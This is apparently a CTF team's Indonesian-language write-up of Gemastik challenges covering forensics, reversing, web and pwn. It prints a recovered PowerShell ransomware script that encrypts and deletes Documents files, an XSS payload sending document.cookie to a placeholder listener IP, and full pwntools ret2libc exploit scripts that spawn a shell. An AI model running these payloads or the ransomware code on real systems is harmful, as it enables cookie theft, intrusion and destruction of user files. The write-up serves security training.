# Team

| #   | Name                  | GitHub                                        |
| --- | --------------------- | --------------------------------------------- |
| 1   | Bagas Mukti Wibowo    | [@bl33dz](https://github.com/bl33dz)          |
| 2   | Nizam Abdullah        | [@abdullahnz](https://github.com/abdullahnz/) |
| 3   | Rafidhia Haikal Pasya | [@W-zrd](https://github.com/W-zrd/)           |

# List Of Content
- [Team](#team)
- [List Of Content](#list-of-content)
- [Forensics](#forensics)
  - [Baby Structured](#baby-structured)
    - [Description](#description)
    - [Solution](#solution)
  - [Ruze](#ruze)
    - [Description](#description-1)
    - [Solution](#solution-1)
- [Reverse Engineering](#reverse-engineering)
  - [Baby P-Code](#baby-p-code)
    - [Description](#description-2)
    - [Solution](#solution-2)
- [Web Exploitation](#web-exploitation)
  - [Baby XSS](#baby-xss)
    - [Description](#description-3)
    - [Solution](#solution-3)
- [Binary Exploitation (PWN)](#binary-exploitation-pwn)
  - [Baby Ulala](#baby-ulala)
    - [Description](#description-4)
    - [Solution](#solution-4)
  - [Bolehh](#bolehh)
    - [Description](#description-5)
    - [Solution](#solution-5)

# Forensics
## Baby Structured
### Description
My friend sent me a picture, but she say its got 'cropped'. can you recover it?

### Solution
Diberikan sebuah file yang merupakan file png, namun file tersebut rusak karena CRCnya tidak sesuai. Kami menggunakan script berikut untuk melakukan fix pada file tersebut.

```py
import struct
import zlib


def fix_crc(file_path, output_path):
    try:
        with open(file_path, 'rb') as f:
            data = f.read()

        signature = data[:8]
        if signature != b'\x89PNG\r\n\x1a\n':
            print("Not a valid PNG file.")
            return

        offset = 8
        fixed_data = bytearray(signature)

        while offset < len(data):
            length = struct.unpack('>I', data[offset:offset+4])[0]
            chunk_type = data[offset+4:offset+8]

            chunk_data = data[offset+8:offset+8+length]
            calculated_crc = zlib.crc32(chunk_type)
            calculated_crc = zlib.crc32(chunk_data, calculated_crc) & 0xffffffff

            fixed_data.extend(struct.pack('>I', length))
            fixed_data.extend(chunk_type)
            fixed_data.extend(chunk_data)
            fixed_data.extend(struct.pack('>I', calculated_crc))
            offset += 12 + length

        with open(output_path, 'wb') as f:
            f.write(fixed_data)


        print(f"File saved as {output_path}")

    except Exception as e:
        print(f"An error occurred: {e}")


file_path = 'zhezhi_______'
output_path = 'zhezhi.png'
fix_crc(file_path, output_path)
```

Setelah mengeksekusi script tersebut akan muncul file baru bernama zhezi.png yang merupakan sebuah PNG yang valid. Namun seperti deskripsi soal file tersebut telah terpotong, maka kami mencoba mengubah heightnya menggunakan ImHex.



Kami mencoba menambahkan heightnya menjadi 790 dan ketika di-save maka akan menghasilkan file berikut.



**Flag: gemastik{g0t_cr0pped_by_structur3}**

[< Scroll to the Top >](#list-of-content)

## Ruze
### Description
You are a DFIR Consultant, you got a client (MR. K) who has a ransomware problem, where when he installs something suddenly his device reboots and his files suddenly disappear, and there are files that confirm that he was hit by ransomware. can you help him?

Note : Dont execute the malicious file on your computer!

Note : Remember you are a DFIR Consultant, not a malware consultant who focus to analyze the ransomware file!

you can download the file you need in here : https://mega.nz/file/Ln53ARjT#ZUwOX1WBfTsRjgjsYgsHB5xr6d4pGNpVPr8N3kl6WhI

Password : 1nip4ssw0rdny4

### Solution
Diberikan sebuah file `.ad1` dan kami melakukan analisa file tersebut menggunakan FTK Imager.
Pada folder Downloads ditemukan sebuah file exe yang bernama `sudoku_new_installer_2024.exe`. Kami melakukan analisa sederhana pada file tersebut menggunakan command `strings` dan menemukan sebuah script powershell. Berikut adalah script yang telah kami prettify.

```powershell
# Function to encrypt a file using AES
function Encrypt-File {
    param (
        [string]$D783C0,  # Path of the file to encrypt
        [string]$EC38E1,  # Path where the encrypted file will be saved
        [string]$6766A9,  # Encryption key
        [string]$92EE28   # Initialization vector (IV)
    )

    # Convert the key and IV from strings to byte arrays
    $4099D1 = [System.Text.Encoding]::UTF8.GetBytes($6766A9)
    $68263A = [System.Text.Encoding]::UTF8.GetBytes($92EE28)

    # Validate key and IV lengths
    if ($4099D1.Length -ne 16 -and $4099D1.Length -ne 24 -and $4099D1.Length -ne 32) {
        throw "ERROR: Key length must be 16, 24, or 32 bytes."
    }

    if ($68263A.Length -ne 16) {
        throw "ERROR: IV length must be 16 bytes."
    }

    # Create an AES encryption object
    $88DB2B = New-Object "System.Security.Cryptography.AesManaged"
    $88DB2B.Key = $4099D1
    $88DB2B.IV = $68263A
    $88DB2B.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $88DB2B.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    # Read the file to encrypt
    $BDAE58 = [System.IO.File]::ReadAllBytes($D783C0)

    # Encrypt the file
    $FF85F8 = $88DB2B.CreateEncryptor()
    $42B0F0 = $FF85F8.TransformFinalBlock($BDAE58, 0, $BDAE58.Length)

    # Combine IV with the encrypted data
    [byte[]]$C81F44 = $88DB2B.IV + $42B0F0

    # Dispose of the AES object
    $88DB2B.Dispose()

    # Output the path of the encrypted file
    Write-Output $EC38E1

    # Write the encrypted data to the specified file
    [System.IO.File]::WriteAllBytes($EC38E1, $C81F44)
    Write-Output "done"

    # Remove the original file
    Remove-Item -Path $D783C0
}

# Define paths
$18FDDF = "C:\Users\" + $Env:UserName + "\Documents"
$F9C9CA = $18FDDF
$069690 = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Garage"

# Create the directory if it doesn't exist
try {
    New-Item -Path $069690 -ItemType Directory -ErrorAction Stop
} catch [System.IO.IOException] {
    "Already Exist!"
}

# Registry path for storing/retrieving key and IV
$069E60 = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"

# Retrieve the encryption key and IV from the registry
$6766A9 = (Get-ItemProperty -Path $069E60 -Name "59e2beee1b06")."59e2beee1b06"
$92EE28 = (Get-ItemProperty -Path $069E60 -Name "076a2843f321")."076a2843f321"

# Output the encryption key
Write-Output $6766A9

# Check if registry path exists, and create it if not
if (-not (Test-Path -Path $069E60)) {
    New-Item -ItemType Directory -Path $069E60
}

# Get all files in the Documents directory
$1F8435 = Get-ChildItem -Path $F9C9CA -File

# Encrypt each file
foreach ($C9B5EC in $1F8435) {
    $D783C0 = $C9B5EC.FullName
    $EC38E1 = Join-Path -Path $069690 -ChildPath $C9B5EC.Name
    Encrypt-File $D783C0 $EC38E1 $6766A9 $92EE28
}


# Output completion message
Write-Output "dones"
```

Ransomware tersebut melakukan encrypt file pada folder Documents lalu menghapusnya. Setelah itu file yang di-encrypt akan di-store pada folder "`C:\Users\`" + `$Env:UserName` + "`\AppData\Local\Microsoft\Garage`" dan ketika kami periksa terdapat beberapa file yang salah satunya adalah file pdf yang telah di-encrypt.



Lalu kami juga menganalisa lagi bagaimana cara ransomware tersebut melakukan encrypt dan menemukan bahwa script tersebut menggunakan registry sebagai Key dan IV.

Kami mencoba mendapatkan registry dari file image tersebut dari `NTUSER.DAT`, `NTUSER.DAT.LOG1`, dan `NTUSER.DAT.LOG2`. Setelah itu kami mencoba mendapatkan value dari registry yang digunakan untuk melakukan encrypt.



Kami membuat script berikut untuk melakukan decrypt file.

```py
from Crypto.Cipher import AES
from binascii import unhexlify, hexlify

SECRETKEY = b'ea0aaa5d53dddfe1'
IV = b'15ccfc351be2d69c'

def decrypt(data):
    aes_obj = AES.new(SECRETKEY, AES.MODE_CBC, IV)
    plaintext = aes_obj.decrypt(data)
    return plaintext

f = open("seccreettttt_credentialll_confidentalll_moodd_booossteerrrr.pdf", "rb")
data = f.read()

decrypted = decrypt(data)

f = open("secret-decrypted.pdf", "wb")
f.write(decrypted)
```

Setelah mengeksekusi script tersebut akan muncul sebuah file baru bernama `secret-decrypted.pdf` yang berisi flag.



**Flag: gemastik{be_careful_with_what_is_on_the_internet_r4nsom_everywhere}**

[< Scroll to the Top >](#list-of-content)

# Reverse Engineering
## Baby P-Code
### Description
This is not a malware document but contains a macros flag checker, but since everyone is trust-issue , generally most people will not activate the macros and go to Developer Tab in their Ms Excel and go to Visual Basic or Macros to edit the VBA subroutine right? .... right?

Download the challenge file here -> https://mega.nz/file/hNxTnajZ#-Sxh6Dxl8BZa5_4nWyKxuQNROgH6_wthAEb07sIAdh0

Reference Walkthrough = https://support.microsoft.com/en-us/office/find-help-on-using-the-visual-basic-editor-61404b99-84af-4aa3-b1ca-465bc4f45432

Your developer tab is not showing? Go to File -> Options -> Customize Ribbon and check that Developer navigation bar ~

### Solution
Diberikan sebuah file excel yang di dalamnya terdapat macros. Challenge ini kurang lebih mirip dengan penjelasan pada [writeup berikut](https://infosecwriteups.com/maldoc101-malicious-macros-analysis-with-oletools-8be3cda84544). Kami menggunakan [tools olevba](https://github.com/decalage2/oletools/wiki/olevba) untuk menganalisis macros pada file excel tersebut.

```bash
olevba gemastik.xls --show-pcode
```



Terdapat beberapa kehadiran string `LitDI2` yang bersebelahan dengan nilai hex pada **Line #4**. Jika nilai hex tersebut dikumpulkan dari atas sampai akhir kemunculan LitDI2, lalu diconvert menjadi ASCII, maka kita akan mendapatkan flagnya. Berikut adalah script otomasi untuk mengconvert seluruh hex tersebut menjadi ASCII.

```py
def to_ascii(hex_string):
   hex_string = hex_string.replace(' ', '')
   ascii_string = bytes.fromhex(hex_string).decode('ascii')
   return ascii_string

# print()
hex = "67 65 6D 61 73 74 69 6B 7B 31 5F 34 6D 5F 73 74 30 6D 70 65 64 5F 5F 5F 5F 68 6D 6D 6D 7D"

flag = to_ascii(hex)
print(flag)
```

**Flag: gemastik{1_4m_st0mped____hmmm}**

[< Scroll to the Top >](#list-of-content)

# Web Exploitation
## Baby XSS

### Description
Aku yang baru belajar XSS menemukan sebuah repo untuk automasi XSS challenge deployment, berikut reponya:

https://github.com/dimasma0305/CTF-XSS-BOT/

Bisakah kalian membantuku untuk melakukan exploitasi XSS sesuai pada repo kode vulnerable yang ada di repository tersebut?

### Solution
Diberikan sebuah website yang memiliki vulnerable XSS. Untuk melakukan exploit kami perlu menyiapkan listener untuk menerima cookies dari Bot XSS yang terdapat pada `/report/`. Berikut exploit yang kami gunakan.

```js
fetch(%27http://XXX.XXX.XXX.XXX:8080/%27,%20{method:%20%27POST%27,%20mode:%20%27no-cors%27,%20body:document.cookie});
```

Karena website tersebut running menggunakan Docker kami hanya perlu mengubah urlnya menjadi http://proxy/ dan melakukan submit url yang akan mengeksekusi XSS tersebut.

```js
http://proxy/?x=fetch(%27http://XXX.XXX.XXX.XXX:8080/%27,%20{method:%20%27POST%27,%20mode:%20%27no-cors%27,%20body:document.cookie});
```



**Flag: gemastik{s3lamat_anda_m3ndap4tkan_XSS}**

[< Scroll to the Top >](#list-of-content)

# Binary Exploitation (PWN)
## Baby Ulala
### Description
In this challenge you guys required to create your own payload to become ROP master. The resources all everywhere, just search RET2LIBSHEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEESH!!

### Solution
Buffer overflow pada `addSong` yang mana inputan title akan overlap dengan inputan artist dan duration, dan inputan artist akan overlap dengan nilai yang berada di-stack yang berada di setelahnya.



Berikut kurang lebih visualisasi overlap buffer diatas:


Kami menggunakan gadget `mov rdi, rbp; nop; pop rbp; ret;` untuk mendapatkan alamat libc.  Yaitu dengan set rbp ke alamat salah satu global offset table dan memanggil `puts`, lalu return ke `_start` agar runtime mengulang kembali dari awal. 
Selanjutnya tinggal ROP untuk panggil system libc. Full solver:

```py
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

PATH = './ulele'

HOST = 'ctf.gemastik.id'
PORT = 1313

def add_song(title, artist, duration):
    r.sendlineafter(b': ', b'1')
    if len(title) < 256:
        title += b'\n'
    if len(artist) < 256:
        artist += b'\n'
    r.sendafter(b': ', title)
    r.sendafter(b': ', artist)
    r.sendlineafter(b': ', f'{duration}'.encode())

def remove_song(idx):
    r.sendlineafter(b': ', b'2')
    r.sendlineafter(b': ', f'{idx}'.encode())

def exploit(r):
    for i in range(99):
        add_song(b'A' * 8, b'B' * 8, 1)

    usefull = 0x401792 # mov rdi, rbp; nop; pop rbp; ret;

    add_song(b'X' * 8, b'Y' * 120 + 
             p64(elf.got.puts) + # rbp
             p64(usefull) + 
             p64(0xdeadbeef) + # rbp
             p64(elf.sym.puts) + 
             p64(elf.sym._start), 
             1)
    
    r.sendlineafter(b': ', b'4') # exit trigger ret
    r.recvline(0)
    
    puts = u64(r.recvline(0).ljust(8, b'\0'))
    libc.address = puts - libc.sym.puts
    
    info(hex(puts))
    info(hex(libc.address))
    remove_song(100)
    
    libc_pop_rdi = next(libc.search(asm('pop rdi; ret')))
    libc_bin_sh = next(libc.search(b'/bin/sh'))
    
    add_song(b'X' * 8, b'Y' * 128 + 
             p64(libc_pop_rdi) + p64(libc_bin_sh) + 
             p64(libc_pop_rdi+1) + # ret
             p64(libc.sym.system), 
             1)
    
    r.interactive()

if __name__ == '__main__':
    elf = ELF(PATH, checksec=True)
    libc = ELF('./libc.so.6', checksec=False)
   
    if args.REMOTE:
        r = remote(HOST, PORT)
    else:
        r = elf.process(aslr=False, env={})
    exploit(r)
```



**Flag: gemastik{enjoy_your_journey_on_pwnw0rld_LINZ_AND_ENRYU_IS_HERE}**

[< Scroll to the Top >](#list-of-content)

## Bolehh
### Description
???

### Solution
Buffer overflow pada fungsi `addFeedback` karena menggunakan gets yang vulnerable untuk mengambil input.



Awalnya kami kesusahan untuk mendapatkan alamat libc karena tidak ada gadget seperti `pop rdi; ret` atau gadget berguna yang lain. Dan asumsi saya binary ini menggunakan glibc >= 2.34 karena tidak ada gadget dari `__libc_csu_init` yang dapat kita gunakan untuk memanggil suatu fungsi.

Berikut kondisi state terakhir ketika keluar dari `addFeedback`:



Solusinya kami menggunakan gadget `printf` dalam `addFeedback` yaitu pada alamat `0x4014EF` karena state terakhir `rax` diatas berisi alamat feedback yang kita inputkan. Yaitu dengan menggunakan format string seperti `%p` untuk mendapatkan alamat libc yang ada di-stack.

Karena kita dapat mengontrol `rbp` juga, kita dapat melanjutkan buffer overflow kita karena gets akan terpanggil lagi. Selanjutnya tinggal ROP panggil `system` dari libc. Berikut full solver yang kami buat.

```py
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

PATH = './chall'

HOST = 'ctf.gemastik.id'
PORT = 11101


def add_notebook(idx, title, content):
    r.sendlineafter(b': ', b'1')
    r.sendlineafter(b': ', f'{idx}'.encode())
    r.sendlineafter(b': ', title)
    r.sendlineafter(b': ', content)

def remove_notebook(idx):
    r.sendlineafter(b': ', b'2')
    r.sendlineafter(b': ', f'{idx}'.encode())
    
def add_feedback(data):
    r.sendlineafter(b': ', b'3')
    r.sendlineafter(b': ', data)

def exploit(r):
    add_notebook(18, 
        p64(elf.sym.addFeedback), 
        b'A' * 8) 
    
    call_printf = elf.sym.addFeedback + 0xF
    feedback = 0x404e28
    
    add_feedback(b'%3$p||||' + (b'A' * 0x38) + p64(feedback - 8) + p64(call_printf))
    
    libc_stdin = eval(r.recv().split(b'|')[0])
    libc.address = libc_stdin - libc.sym._IO_2_1_stdin_
    
    info(f'stdin @ {hex(libc_stdin)}')
    info(f'libc @ {hex(libc.address)}')
    
    pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))


    r.sendline(b'A' * 0x48 + 
               p64(pop_rdi_ret) + p64(next(libc.search(b'/bin/sh'))) + 
               p64(pop_rdi_ret + 1) + p64(libc.sym.system))

    
    r.interactive()

if __name__ == '__main__':
    elf = ELF(PATH, checksec=True)
    libc = ELF('./libc.so.6', checksec=False)

    if args.REMOTE:
        r = remote(HOST, PORT)
    else:
        r = elf.process(aslr=False, env={})
    exploit(r)
```

